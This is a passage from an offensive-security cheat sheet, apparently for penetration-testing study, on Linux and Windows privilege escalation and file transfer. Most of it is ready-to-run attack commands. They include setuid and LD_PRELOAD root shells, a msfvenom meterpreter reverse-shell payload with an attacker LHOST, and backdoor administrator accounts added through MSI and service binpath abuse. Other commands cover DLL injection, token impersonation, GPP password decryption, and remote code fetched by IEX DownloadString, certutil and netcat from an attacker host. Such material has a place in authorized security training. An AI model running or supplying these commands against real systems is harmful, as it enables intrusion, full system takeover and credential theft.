            -   \$ sudo /usr/bin/setcap cap\_setuid+ep /usr/bin/python2.7

            -   \$ python2.7 -c \'import os; os.setuid(0); os.system(\"/bin/sh\")\'

            -   sh-5.0\# whoami

                -   root

-   **LD\_PRELOAD**

    -   **Shared Libraries**

        -   Shared libraries are libraries that are loaded by programs when they start. When a shared library is installed properly, all programs that start afterward automatically use the new shared library. 

    -   **Shared Libraries Names**

        -   Every shared library has a special name called the "soname". The soname has the prefix "lib", the name of the library, the phrase \`".so", followed by a period and a version number.The dynamic linker can be run either indirectly by running some dynamically linked program or shared object. The programs **ld.so **and **ld-linux.so\* **find and load the shared objects (shared libraries) needed by a program, prepare the program to run, and then run it.

    -   **LD\_PRELOAD** is an optional environmental variable containing one or more paths to shared libraries, or shared objects, that the loader will load before any other shared library including the C runtime library (libc.so) This is called preloading a library.

    -   To avoid this mechanism being using as an attack vector for *suid/sgid* executable binaries, the loader ignores *LD\_PRELOAD* if *ruid != euid*. For such binaries, only libraries in standard paths that are also *suid/sgid* will be preloaded.

    -   **Finding the vulnerability**

        -   if you find inside the output of ***sudo -l*** the sentence: ***env\_keep+=LD\_PRELOAD*** and you can call some command with sudo, you can escalate privileges.

            -   user\@debian:\~\$ sudo -l

            -   Matching Defaults entries for user on this host:

            -   env\_reset, env\_keep+=LD\_PRELOAD   

    -   **Exploitation**

        -   Make a c binary

            -   \#include \<stdio.h\>

            -   \#include \<sys/types.h\>

            -   \#include \<stdlib.h\>

            -   void \_init() {

            -   unsetenv(\"LD\_PRELOAD\");

            -   setgid(0);

            -   setuid(0);

            -   system(\"/bin/bash\");

            -   }

            -   Compile it

                -   open terminal and go to any Writable Directory .  writtable directory like  {/tmp , /var/tmp , /dev/shm}  for dropping shell

                -   gcc -fPIC -shared -o evil.so evil.c --nostartfiles

            -   Execute

                -   sudo LD\_PRELOAD=pe.so \<COMMAND\> \#Use any command you can run with sudo

-   **Exploiting users with '.' in their PATH**

    -   Having '.' in your PATH means that the user is able to execute binaries/scripts from the current directory. To avoid having to enter those two extra characters every time, the user adds '.' to their PATH. This can be an excellent method for an attacker to escalate his/her privilege.

    -   Requires user interaction

        -   rather type: \$ program Instead of  \$ ./program

    -   To avoid having to enter those two extra characters every time, the user adds \'.\' to their PATH. This can be an excellent method for an attacker to escalate his/ her privilege, for example:\
        Joe (the attacker) happens to know that that Suzy has sudo privileges to change users passwords - unfortunately for the admins she also has the power to change the root password. Now Suzy is a lazy girl and thus has \'.\' in her PATH. Joe places a program called \'ls\' in a directory Suzy often visits. This \'ls\' program contains code to modify root\'s password. Now when Suzy enters that directory and asks for a listing, because she has \'.\' in her path, the \'ls\' that Joe placed in the directory is run, instead of /bin/ls. Now root\'s password has been changed, and Joe is able to logon as root.\
        Having \'.\' in your PATH can also help the attacker if exploiting programs that make system(), execvp(), or execlp() calls to programs, if they do not specify the full path to the program the attacker can place a program into a directory in the PATH, so that program is run instead - this works because programmers just expect that the program they mean to run will be in the PATH.

    -   To add \'.\' to your path type this at the prompt PATH=.:\${PATH} then to be able to use the \'.\' in your path enter export PATH.

-   **AUTOMATION TOOLS :**

    -   Metasploit

        -   Use \"local/exploit/suggester\" module

        -   post exploitation module \<windows/local/bypassuac\_injection\>

        -   Meterpreter \> getsystem

    -   linENUM :

        -   git clone <https://github.com/rebootuser/LinEnum>

        -   ./linENUM.sh

        -    ./LinEnum.sh -s -k keyword -r output  -e /tmp/ -t

    -   Linux-exploit-suggester

        -    git clone   <https://github.com/mzet-/linux-exploit-suggester.git>

        -    ./linux-exploit-suggester.sh   

    -   linuxprivchecker

        -    git clone <https://github.com/reider-roque/linpostexp/blob/master/linuprivchecker.py>

        -   wget <http://securitysift.com/download/linuxprivchecker.py>

        -   python linuxprivchecker.py \>output.txt   //run this script on the victim machine to do some recon to see what can be used to escalate the privileges

    -   Unix-priv-check

        -   Git clone https://github.com/pentestmonkey/unix-privesc-check.git

        -   ./Unix-privesc-check    

    -   linPEAS

        -   wget <https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh>

        -   ./linpeas.sh

    -   PE-LINUX :

        -   git clone   <https://github.com/WazeHell/PE-Linux.git>

    -   LinuxSmartEnumeration

        -   wget \"<https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh>\" -O lse.sh

        -   ./lse.sh -l1 \# shows interesting information that should help you to privesc

        -   ./lse.sh -l2 \# dump all the information it gathers about the system

    -   Sudo-killer

        -   Git clone <https://github.com/TH3xACE/SUDO_KILLER.git>

        -   ./sudo\_killer.sh -c -e -r report.txt -p /tmp

    -   Beroot

        -   Wget <https://github.com/AlessandroZ/BeRoot/tree/master/Linux>

        -   Python beroot.py

    -   Xploitdeli

        -   Wget <https://raw.githubusercontent.com/codingo/OSCP-1/master/xploitdeli.py>

-   **Windows privilege Escalation**

    -   **kernel exploit :** 

        -   searching for kernel exploits

            -   Get the version of the target's kernel  : systeminfo

            -   Metasploit : use post/windows/gather/enum\_patches

            -   Search for missing patches : wmic qfe get Caption,Description,HotFixID,InstalledOn

            -   Search for vulnerable drivers installed : DRIVERQUERY

            -   Search for vulnerable applications : wmic product get name, version

        -   search for an exploit of the {kernel,driver,patch} found {searchsploit / exploitdb / ....}

        -   If windows target has a built in compiler

            -   upload the exploit to the windows target machine and compile it with built in compiler

        -   if windows machine doesn't have a compiler : compile it in our linux machine

            -   for x64 : x86\_64-w64-mingw32-gcc ms032.c -o shell.exe or (compile windows exe in linux )

            -   for x86 : i686-w64-mingw32-gcc 18176.c -lws2\_32 -o 18176.exe (compile windows exe in linux )

            -   { x86\_64,i686}-w64-mingw32-g++ 18176.c++ -lws2\_32 -o 18176.exe (compile c++ project)

            -   upload the exploit to the target machine

        -   Run the exploit

        -   Ex of kernel exploits

    -   **unquoted service path**

        > All Windows services have a Path to its executable When a service is created whose executable path contains *spaces* and isn't enclosed within *quotes*, leads to a vulnerability known as Unquoted Service Path which allows a user to gain SYSTEM privileges (only if the vulnerable service is running with SYSTEM privilege level which most of the time it is).

        -   In Windows, if the service is not enclosed within quotes and is having spaces, it would handle the space as a break and pass the rest of the service path as an argument.

            -   Ex: C:\\Program Files\\Some Folder\\sub A\\Service.exe

            For each space in the above file path, Windows will attempt to look for and execute programs with a name that matches the word in front of space.  The operating system will try all possibilities throughout the entire length of the file path until it finds a match.  Using the example above, Windows would try to locate and execute programs in the following order:  
                > C:\\Program.exe
                > C:\\Program Files\\Some.exe
                > C:\\Program Files\\Some Folder\\sub.exe
                > C:\\Program Files\\Some Folder\\Sub A\\Service.exe

        -   If we can drop our malicious exe successfully on one of these paths, upon a restart of the service, Windows will run our exe as SYSTEM. But we should have necessary privileges on one of these folders.

        -   **search manually for unquoted path with a pathname with space**

            -   wmic service get name,displayname,pathname

            -   Get-WmiObject win32\_service \| Select-Object Name, State, PathName \| Where-Object {\$\_.State -like \'Running\'}

    -   **check & list all unquoted service paths**

        -   wmic service get name,displayname,pathname,startmode \|findstr /i \"auto\" \|findstr /i /v \"c:\\windows\\\\\" \|findstr /i /v \"\"\"

        -   we are looking for :

            -   vulnerable : C:\\Program Files\\something\\winamp.exe

            -   not vulnerable : \"C:\\Program Files\\something\\winamp.exe\" 

            -   C:\\Program Files(x86) \\some Folder \\result.exe

    -   **view the permissions of the other affected folder in the path, of the service found:**

        -   icacls \"C:\\Program Files (x86)\\some Folder\"

        -   icacls \"C:\\Program Files (x86)\\Sub A\"

        -   You are looking in the output. for

            -   BUILTIN\\Users:(F)(Full access), or

            -   BUILTIN\\Users:(M)(Modify access) or 

            -   BUILTIN\\Users:(W)(Write-only access) 

    -   **Then make a payload with a name that the windows try to execute with msfvenom and upload the file in the parent vulnerable path**

        -   msfvenom -p windows/meterpreter/reverse\_tcp -e x86/shikata\_ga\_nai LHOST=192.168.2.60 LPORT=8989 -f exe -o sub.exe

        -   c:\\program Files\\some folder \> dir

            -   we will find Sub A folder && sub.exe

    -   **Final step Stop and restart the service**

        -   Sc stop service

        -   Sc start service

    -   Automate this process with Metasploit Module:  exploit/windows/local/trusted\_service\_path

    -   Powersploit

        -   Get-ServiceUnquoted -\> this command not only discoverthe service but it does all the other necessary checks as well like: identification of the path that users have Write access, discovery of the privileges that the service is running (which in this case is LocalSystem) and determination of whether a user can restart the service.

        -   Write-ServiceBinary -Name "name" --Path "c:\\\\payload.exe" **-\>**  will generate an executable into the specified path with a simple payload.exe that it will try to add the user into the local administrators group when the service will be restarted.

-   **AlwaysInstallElevated**

    -   AlwaysInstallElevated is a setting that allows non-privileged users the ability to install and run Microsoft Windows Installer Package Files (MSI) with elevated (SYSTEM) permissions. However, granting users this ability is a security concern because it is too easy to abuse this privilege.   For this to occur, there are two registry entries that have to be set to the value of "1" on the machine:

        -   \[HKEY\_CURRENT\_USER\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer\]
        > "AlwaysInstallElevated"=dword:00000001
        -   \[HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer\]
        > "AlwaysInstallElevated"=dword:00000001

    -   To search for   AlwaysInstallElevated msi

        -   reg query HKCU\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer /v AlwaysInstallElevated

        -   reg query HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer /v AlwaysInstallElevated   

        -   *Note:  If you happen to get an error message similar to: *The system was unable to find the specified registry key or value*, it may be that a Group Policy setting for AlwaysInstallElevated was never defined, and therefore an associated registry entry doesn't exist.*

    -   msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi

    -   msiexec /quiet /qn /i C:\\evil.msi //run msi files in the background

        -   /quiet = Suppress any messages to the user during installation

        -   /qn = No GUI && /i* = *Regular (vs. administrative) installation

    -   Automate the process with Metasploit Module:  exploit/windows/local/always\_install\_elevated

-   **vulnerable services :**
    > "One possible way to escalate privileges is by exploiting misconfigured services. The goal is to embed a malicious file in a high privileged service. This file will then be executed the next time the service starts and will have the same privileges as the service possesses. As most services start with SYSTEM privileges, the chance to obtain SYSTEM privileges is high.    So, their folders, files, and registry keys must be protected with strong access controls. "

    > -\> icacls (windows vista + ) or cacls (windows xp) == show the permisions of files and folders  
    >
    > -\> Accesschk== is part of system internal suite can automatically check if we have write access To a Windows service with any user privilege
    
    > -\>quick note : after exploiting a vulnerable service successfully migrate quickly to another process or else your session will die very soon

-   **weak/insecure service permission**

    -   if  the service executable file can't change or not modifiable Weak service permissions can be used to modify the binary path in a service to change to another malicious file and execute that  malicious file (changing the binpath of the service)

    -   determine which Services can be modified by any authenticated user "Accesschk can automatically check if we have write access to a Windows service or have vulnerable privileges with a certain user level "

        -   accesschk.exe -uwcqv \"Authenticated Users\" \* /accepteula

            -   we are looking for servicename == SERVICE\_ALL\_ACCESS for {users , guest , everyone}

        -   accesschk.exe -uwcqv \[service\_name\]

            -   RW NT AUTHORITY\\SYSTEM

            -   SERVICE\_ALL\_ACCESS

            -   RW BUILTIN\\Administrators

            -   SERVICE\_ALL\_ACCESS

            -   RW NT AUTHORITY\\Authenticated Users

            -   SERVICE\_ALL\_ACCESS

            -   RW BUILTIN\\Power Users

            -   SERVICE\_ALL\_ACCESS

    -   **Exploit the service binpath (binary planting)**

        -   **Ex:**

            -   Sc qc \[service\_name\]

            -   sc config \[service\_name\] binpath=\"evilfile\"

            -   sc config \[service\_name\] obj=\"\\LocalSystem\" password=\"\"

            -   sc qc \[service\_name\]    - \>to verify

            -   net stop \[service\_name\]

            -   net start \[service\_name\]

        -   Another Ex:

            -   Sc qc \[service\_name\]

            -   sc config service binpath= \"net user rottenadmin P\@ssword123! /add\"

            -   sc stop service

            -   sc start service

            -   sc config service binpath= \"net localgroup Administrators rottenadmin /add\"

            -   sc stop service

            -   sc start service

        -   Automate the process with Metasploit Module: exploit/windows/local/service\_permissions

-   **Insecure registry service permissions**

    -   Same idea as weak/insecure service permission but instead of changing the binpath (imagepath) from the service property we will change it from the registry , In Windows, information related to services is stored in  "*HKLM\\SYSTEM\\CurrentControlSet\\Services"*

    -   Check the permissions of sub registry key by right click on the service folder or install "SubInACL" tool

        -   subinacl.exe /keyreg \"HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\Vulnerable Service\" /display

        -   if we have the permission to change the imagepath then

    -   Generate a payload with msfvenom , upload it to the target's host

    -   Change the imagepath or the binpath of the service from the registry

        -   reg add \"HKEY\_LOCAL\_MACHINE\\SYSTEM\\ControlSet001\\Services\\Vulnerable Service\" /t REG\_EXPAND\_SZ /v ImagePath /d \"C:\\Users\\testuser\\AppData\\Local\\Temp\\Payload.exe\" /f

    -   Restart the service or the pc

-   **Insecure Service file Permissions: (Weak Service Executable or Configuration File Permissions or Insecure File/Folder Permissions)**

    -   Services execute the file defined in their file path. If this file can be modified by an attacker, he is able to replace it by a malicious file of his own. Furthermore, services sometimes load configuration files. Depending on the program, it might be possible that such a configuration file can be used to execute an arbitrary file. If write permissions for such a configuration file exists, privileges can be escalated. (replace or modify the executable of the service)

    -   List running services

        -   wmic service get name,displayname,pathname,startmode

        -   Get-WmiObject win32\_service \| Select-Object Name, State, PathName \| Where-Object {\$\_.State -like \'Running\'}

    -   the exploitation process is similar to unquoted service path but instead of exploiting the searching mechanism of the executable we will replace the executable itself

        -   icacls \"C:\\Program Files (x86)\\some Folder\"

        -   You are looking in the output. for

            -   BUILTIN\\Users:(F)(Full access), or

            -   BUILTIN\\Users:(M)(Modify access) or 

            -   BUILTIN\\Users:(W)(Write-only access) 

    -   Replace the executable with a payload such as reverse shell or only add a new user

    -   Restart the service or reboot the machine

    -   Automate the process with Metasploit Module: exploit/windows/local/service\_permissions

-   **User Account Control (UAC) Bypass**

    -   **Metasploit**

        -   exploit/windows/local/bypassuac\_sluihijack + getsystem

        -   exploit/windows/local/bypassuac\_eventvwr + getsystem

        -   exploit/windows/local/bypassuac\_fodhelper + getsystem

    -   <https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html>

-   **DLL Hijacking**

    -   Another common method used by malware is to hijack a concept about how the OS loads DLLs. Whenever an exe loads (even **explorer.exe**), This attack happens when an the application does\'nt  specify absolute paths to the DLL\'s (similar to unquoted service path but for dll not executables )that it needs so the application dynamically loads a DLL without specifying a fully qualified path name. As Windows attempts to load this file, it looks for it within a well-defined set of directories in a particular order. If an attacker gains control of one of the directories on the DLL search path it is possible to add a malicious DLL with the same name in a directory earlier than the directory where the legit DLL resides,If the system does not find a legitimate copy of the DLL before it searches the compromised directory, it loads the malicious DLL. this malicious DLL is running with administrator privileges and the hacker will be able to achieve local privilege escalation .This is sometimes called a DLL preloading attack or a binary planting attack

    -   Dll search order : When a process attempts to load a DLL, the system searches directories in the following order: on 32-bit systems below:

        -   1 - The directory from which the application loaded

        -   2 - 32-bit System directory (C:\\Windows\\System32)

        -   3 - 16-bit System directory (C:\\Windows\\System)

        -   4 - Windows directory (C:\\Windows)

        -   5 - The current working directory (CWD)

        -   6 - Directories in the PATH environment variable (system then user)

    -   Check whether the DLL that process looking for exists in any directory on the disk.

        -   If it does not exist, place the malicious copy of DLL to one of the directories that I mentioned above. When process executed, it will find and load malicious DLL.

        -   If the DLL file already exists in any of these paths, try to place malicious DLL to a directory with a higher priority than the directory where the original DLL file exists. For example, if the original DLL exists in the C:\\Windows directory and if we gain control of the directory which the application loaded and place a malicious copy of the DLL in that directory, when the application tries to load the DLL file, it will look at the directory which the application loaded. And it will find the malicious copy of DLL, and load it. So, our malicious code will be executed with higher privileges.

    -   List all processes and

        -   Ps

        -   Process Monitor -\> list all the processes on the system and discover these processes which are running as SYSTEM and are missing DLL's

    -   Search for the dll's of the service and check for missing dll's

        -   We can copy the app to our machine and start static ananlysis with a debugger or IDA PRO

        -   Or we can use Process Monitor will identify if there is any DLL that the application tries to load and the actual path that the application is looking for the missing DLL.

    -   Search for the dll location and Check the permissions of the folder containing the dll to be able to modify the dll with icacls

    -   Generate a malicious dll with msfvenom

    -   then move our malicious DLL file to the directory we have write access to. The next time the application is started, the created DLL file will be executed.

    -   Restart the service

    -   Automate this process with powersploit

        -   Find-ProcessDLLHijack  -\> will identify all the processes on the system that are trying to load DLL's which are missing

        -   Find-PathDLLHijack -\>  The next step is the identification of paths that the user can modify the content. The folders identified will be the ones that the malicious .DLL needs to be planted.

        -   Write-HijackDll  -\>The last step is to generate the hijackable DLL into one of the folders that have been identified above with Modify (M) permissions.

  

-   **Unintended installs**

    -   Unattended Installs allow for the deployment of Windows with little-to-no active involvement from an administrator.  This solution is ideal in larger organizations where it would be too labor and time-intensive to perform wide-scale deployments manually.  If administrators fail to clean up after this process, an EXtensible Markup Language (XML) file called Unattend is left on the local system.  This file contains all the configuration settings that were set during the installation process, some of which can include the configuration of local accounts, to include Administrator accounts!

    -   Unintended files are likely to be found in :

        -   C:\\Windows\\Panther\\

        -   C:\\Windows\\Panther\\Unattend\\

        -   C:\\Windows\\System32\\

        -   C:\\Windows\\System32\\sysprep\\

    -   Automate this process with Metasploit Module:  post/windows/gather/enum\_unattend

-   **Group Policy Preferences**

    -   Group policy preferences allows domain admins to create and deploy across the domain local users and local administrators accounts. This feature was introduced in Windows 2008 Server however it can be abused by an attacker since the credentials of these accounts are stored encrypted and the public [key] is published by Microsoft. This leaves the door open to any user to retrieve these files and decrypt the passwords stored in order to elevate access. These files are stored in a shared directory in the domain controller and any authenticated user in the domain has read access to these files since it is needed in order to obtain group policy updates

    -   **Manually**

        -   connect with the target's Domain controller via SMB and try to access /SYSVOL

            -   net use z: [\\\\dc01\\SYSVOL] -\> via windows

            -   smbclient //192.168.1.103/SYSVOL -U user -\> via linux

        -   Find the GPP file: Groups.xml

            -   Ex of location: *domain.local\\Policies\\{ EE416E94-7362-4587-9CEC-651656DB7538}\\Machine\\Preferences\\Groups\\Groups.xml*

            -   dir /s Groups.xml

        -   Review the contents for passwords

            -   type Groups.xml

        -   Decrypt using GPP Decrypt

            -   gpp-decrypt \[encrypted\_cp\_password\]

    -   **Metasploit**

        -   Use post/ windows/gather/credentials/gpp

            -   after gaining access to the target's domain contoller

        -   use auxiliary/scanner/smb/smb\_enum\_gpp

            -   enumerates files from target domain controllers and connects to them via SMB

    -   **Powersploit**

        -   Get-CachedGPPPassword -\>For locally stored GP Files

        -   Get-GPPPassword -\>For GP Files stored in the DC  

-   **Token Manipulation**

    -   It is known that running a windows service as local system it is a bad security practice as if this service is compromised in any way it would give the same level of privileges to an attacker as well. However it is also possible to escalate privileges from a service that is not running as SYSTEM but as a network service as well.

    -   However there is a technique which can be used that tries to trick the "NT Authority\\System" account to negotiate and authenticate via NTLM locally so the token for the "NT Authority\\System" account would become available and therefore privilege escalation possible. This technique is called [Rotten Potato] 

    -   **Exploitation method**

        -   Meterpreter \> execute rottenpotato.exe --Hc

        -   Meterpreter \> load incognito

        -   Meterpreter \> list\_tokens --u

        -   Mterpreter \> impersonate\_token "NT AUTHORITY\\\\SYSTEM"

    -   **With powersploit**

        -   Invoke-TokenManipulation -enumerate

        -   Invoke-TokenManipulation --ImpersonateUser --Username="nt authority\\system"

-   **Autologon User Credential**

-   **Insecure Named Pipes Permissions**

-   **DLL Injection**

    -   DLL injection is a technique which allows an attacker to run arbitrary code in the context of the address space of another process or injecting code (dll) into a running process. If this process is running with excessive privileges then it could be abused by an attacker in order to execute malicious code in the form of a DLL file in order to elevate privileges.

    -   **Manually**

        -   Generate a dll with msfvenom

        -   Inject it With remote dll injector tool -\> which is using the **CreateRemoteThread** technique and it has the ability to inject DLL into ASLR enabled processes. The process ID and the path of the DLL are the two parameters that the tool need

        -   Remotedllinjector64.exe \[pid\] c:\\\\payload.dll

    -   **Metasploit**

        -   Search reflective\_dll\_inhect

        -   Set session \[nb\]

        -   Set pid \[pid\]

        -   Set path \[dll\_path\]

    -   **Powersploit**

        -   Generate a malicious dll with msfvenom

        -   Choose a process with system privilege to inject

        -   Invoke-DLLInjection --ProcessID \[pid\] --dll \[malicious dll location\]

-   **Secondry logon handler**

    -   Secondary logon is a windows service that allows administrators to authenticate and perform administrative tasks with a non-administrator account. However this service fails to sanitize handles during the creation of a new process which could allow a standard user to abuse this in order to perform privilege escalation as he can duplicate a system service thread pool handle

    -   use exploit/windows/local/ms16\_032\_secondary\_logon\_handle\_privesc

-   **Stored credentials**

-   **Hot potato**

    -   Hot potato is the code name of a Windows privilege escalation technique that was discovered by Stephen Breen. This technique is actually a combination of two known windows issues  like NBNS spoofing and NTLM relay with the implementation of a fake WPAD proxy server which is running locally on the target host.NTLM authentication via the same protocol like SMB has been already patched by Microsoft however this technique is using HTTP to SMB authentication in order to create a high privilege service as the HTTP request might come from a high privilege service like the Windows update. Since the traffic contains the NTLM credentials and is passing through a fake proxy server it can be captured and passed to a local SMB listener to create an elevated service which can execute any command  as SYSTEM.

    -   Download the binary -\> git clone https://github.com/foxglovesec/Potato.git

    -   Potato.exe --ip 127.0.0.1 -cmd \[cmd to run\] -disable\_exhaust true -disable\_defender true

    -   There is an alternative option which simulates the Hot Potato exploit in PowerShell and is called [Tater].

-   **Insufficient Physical Access Manipulation Protection**

    -   Further privilege escalation attack vectors exist if physical access to the target system is available. This section describes how privileges can be escalated on a system, which an attacker has physical access to and which is protected insufficiently against file manipulation.

    -   **Missing Disk Encryption**

        -   Machine that does not encrypt the Windows partition and allows booting from CD, USB or a pre-boot execution environment (PXE) is prone to privilege escalation through file manipulation. Such a machine can be compromised by booting a live operating system and replacing an executable file that is executed within a Windows service running with SYSTEM privileges. One example is the utilman.exe file used for input assistance (Ease of Access) at the Windows logon screen. This file can be replaced by cmd.exe.

    -   **Disk Encryption without Pre-boot Authentication (Cold Boot Attack)**

        -   Disk encryption software may use pre-boot authentication to ensure that a file volume is decrypted after providing a password, smartcard, etc. A number of disk encryption software load the decryption key into the RAM. If an already decrypted machine is shut down and can be booted from CD, USB or a PXE, it is possible to dump the RAM data of that machine by booting software that dumps the RAM. This is possible as RAM, although it is a volatile storage, does not directly erase data when it is no longer supplied with power, but it is erased gradually. The time after which RAM data is deleted can be extended to several hours by cooling the RAM, e.g. by spraying nitrogen on the RAM. Such an attack is also referred to as Cold Boot attack. Some companies choose not to use pre-boot authentication in order to enable a PXE or to improve user experience. Here, the key is loaded into memory when booted. These machines can be started and shutdown several times. Therefore, the memory can be dumped repeatedly until it contains the decryption keys. This increases the chance of a successful key extraction. Such attacks have been demonstrated by the Princeton University research.
  
-   **Intel sysret**

    -   This vulnerability allows an attacker to execute code to the kernel (ring0) due to the difference in implementation between processors AMD and Intel. For example an operating system that it is written according to AMD specifications but runs on an Intel hardware is vulnerable. Since the attacker can execute code into the kernel it could allow him to escalate his privileges from user level to system. Windows environments are vulnerable due to the way that the Windows User Mode Scheduler is handling system requests. This issue affects 64-bit versions of Windows 2008 and Windows 7 that are running on an Intel chip.

    -   Download sysret binary -\> git clone https://github.com/shjalayeri/sysret.git

    -   Execute it " sysret.exe -a -pid 2348\"

-   **Automation Enum tools :**

    -   Metasploit :

        -   use  \"local/exploit/suggester\" module

        -   use post/windows/gather/enum\_patches

        -   meterpreter command (getsystem) if it fail  we can use bypassauc exploit for windows

    -   windows-exploit-suggester

        -   github: git clone <https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git>

        -    python windows-exploit-suggester.py \--update

        -   python windows-exploit-suggester.py -d 2017-05-27-mssb.xls -i windows\_sysyteminfo.txt

        -    python windows-exploit-suggester.py -d 2017-05-27-mssb.xls -i windows\_sysyteminfo.txt -l   //search only for local exploit

    -   windows-privesc-check

        -   GitHub : git clone <https://github.com/pentestmonkey/windows-privesc-check.git>

        -    windows-privesc-check2.exe \--audit -a -o report

    -   wesng 

        -   GitHub : git clone <https://github.com/bitsadmin/wesng.git>

        -   wes.py \--update

        -   cmd\>\> systeminfo \> sysyteminfo.txt            (copy that file to Linux pc)

        -    wes.py \<systeminfo\_file.txt\>

    -   winPEAS

        -    git clone <https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git>

        -   wget <https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASbat>

        -   wget <https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe>

    -   Sherlock

        -   Useful to identify patches that can lead to privilege escalation 

        -   git clone <https://github.com/rasta-mouse/Sherlock.git>

    -   Watson

        -   git clone <https://github.com/rasta-mouse/Watson.git>

        -   Watson.exe

    -   JAWZ (Just Another Windows Enum Script )

        -   powershell.exe -ExecutionPolicy Bypass -File .\\jaws-enum.ps1

        -   powershell.exe -ExecutionPolicy Bypass -File .\\jaws-enum.ps1 -OutputFilename result.txt

    -   seatbealt

        -   Seatbelt.exe -group=all -full

        -   Seatbelt.exe -group=system -outputfile=\"C:\\Temp\\system.txt\"

    -   powerup.ps1 (from powersploit)

        -   Powershell -ExecutionPolicy bypass

        -   IEX (New-Object Net.WebClient).DownloadString(\"<https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1>\");

        -   Or wget <https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1>

        -   Invoke-AllChecks;

    -   SessionGopher

        -   is a PowerShell tool that uses WMI to extract saved session information for remote access tools such as WinSCP, PuTTY, SuperPuTTY, FileZilla, and Microsoft Remote Desktop. It can be run remotely or locally.

        -   git clone <https://github.com/Arvanaghi/SessionGopher>

        -   .\\SessionGopher.ps1

        -   Invoke-SessionGopher -Thorough

-   **Make an http server**

    -   **php**

        -   php -S 0.0.0.0:8080

    -   **python**

        -   python -m http.server 8080 -\>version 3

        -   python -m SimpleHTTPServer 8000

    -   **npm**

        -   npm install http-server -g

        -   http-server -p port -\> from anywhere or directory

    -   **Apache**

        -   Service appache2 start

        -   Put your files in /var/www/html

-   <h2 align="center">File Transfer</h2>

    -   **NETCAT**

        -   nc ip 1234 \< file.txt

        -   nc -nlvp 1234 \>received.txt

    -   **WGET**

        -   python -m SimpleHTTPserver \#attacker

        -   wget <http://192.168.1.5/file.exe>

    -   **CURL**

        -   python -m SimpleHTTPserver \#attacker

        -   curl -O  http://192.168.1.5/file.exe

    -   **FTP**

        -   apt-get install vsftpd // attacker machine

        -   nano /etc/vsftpd.conf =\> write\_enable=YES

        -   useradd -m test

        -   passwd test

        -   service vsftp start

        -   apt-get install ftp //victim machine

        -   ftp \<attacker\_ip\>

        -   enter username : test \| password: test

        -   choose between {ascii \| binary}

        -   help

        -   {lcd/!ls} = print current directory and list files on local host

        -   {pwd/ls} = print current directory and list files on remote host

        -   Get \<path in the target pc \> \<location to download on m path\>

        -   Put \<path in my pc \> \<location to upload on target pc\>

        -   Another method : //victim machine

            -   Or make a file ex ftp\_script.txt with ftp scripts that download a file

            -   ftp --v --n --s:ftp\_script.txt

    -   **TFTP**

        -   sudo apt update && sudo apt install atftp   //on attacker machine

        -   sudo mkdir /tftp

        -   sudo chown nobody: /tftp

        -   sudo atftpd \--daemon \--port 69 /tftp

        -   tftp -i 10.11.0.4 put file.txt    //on victim

        -   tftp -i 10.11.0.4 get file.txt    //on victim

    -   **POWERSHELL**

        -   python -m SimpleHTTPserver \#attacker

        -   powershell.exe --ExcecutionPolicy Bypass --NoLogo -NonInteractive

        -    powershell -command \"(New-Object [System.Net].WebClient).DownloadFile(\'[http://192.168.1.5:8000/file.txt\',\'c][]:\\users\\test\')\"  

    -   **Python**

        -   python -c \"import urllib.request; urllib.request.urlretrieve(\'<http://10.10.10.10/cat.jpg>\', \'C:\\\\Users\\\\Public\\\\Downloads\\\\cat.jpg\');\"

    -   **SMB**

        -   we will use a python script that activates SMB service in our Linux machine

        -   wget <https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py>

        -   python smbserver.py anyname /root/share

        -   in windows : net use

        -   Download the file in windows

            -   Run cmd then \\\\192.168.1.108

        -   Download the file in linux

            -   apt-get install smbclient -\> for accessing share folder of smb server

            -   smbclient -L 192.168.1.108

                -   ls

                -   get file.txt

    -   **Perl**

        -   perl -le \"use File::Fetch; my \$ff = File::Fetch-\>new(uri =\> \'[http://10.10.10.10/nc.exe\');] my \$file = \$ff-\>fetch() or die \$ff-\>error;\"

    -   **BitsAdmin**

        -   BITSAdmin is a command-line utility for window platform that allows the user to download and uploading of a file.

        -   bitsadmin /transfer job \[link\] \[location\_on\_disk\]

    -   **SSH**

        -   ssh HOST " cat \< LOCALFILE " \> REMOTEFILE

        -   ssh root\@10.11.0.105 \"cat exploit\" \> exploit // To get files from the attacking machine

        -   ssh root\@10.11.0.105 \"cat \> proof.txt\" \< proof.txt // To put files to the attacking machine

    -   **php**

        -   echo \"\<?php file\_put\_contents(\'nameOfFile\', fopen(\'<http://192.168.1.102/file>\', \'r\')); ?\>\" \> down2.php

    -   **SCP**

        -   upload a file:

            -   scp /path/to/source/file.txt <username@192.168.1.101:/path/to/destination/file.txt>

            -   scp \[local\_file\_path\] [username\@192.168.0.10:\[remote\_file\_path\]]

            -   scp -c blowfish \[local\_file\] username\@192.168.0.10:/some/remote/directory -\> use blowfish

        -   Upload a directory :

            -   scp -r \[local\_dir\] username\@192.168.0.10:/some/remote/directory/\[remote\_dir\]

        -   Download a directory:

            -   scp --r username\@192.168.0.10:\[remote\_dir\] /some/local/directory

        -   Download a file

            -   scp username\@192.168.0.10:\<remote\_file\> /some/local/directory

    -   **Certutil**

        -   certutil.exe -urlcache -split -f [https://192.168.1.5:8888/filename] outputfilename

    -   **Vbscript -\> windows**

    -   **rdp**

        -   rdesktop 10.10.10.10 -r disk:linux=\'/home/user/filetransferout\'

-   <h2 align="center">Path the hash (pth)</h2>

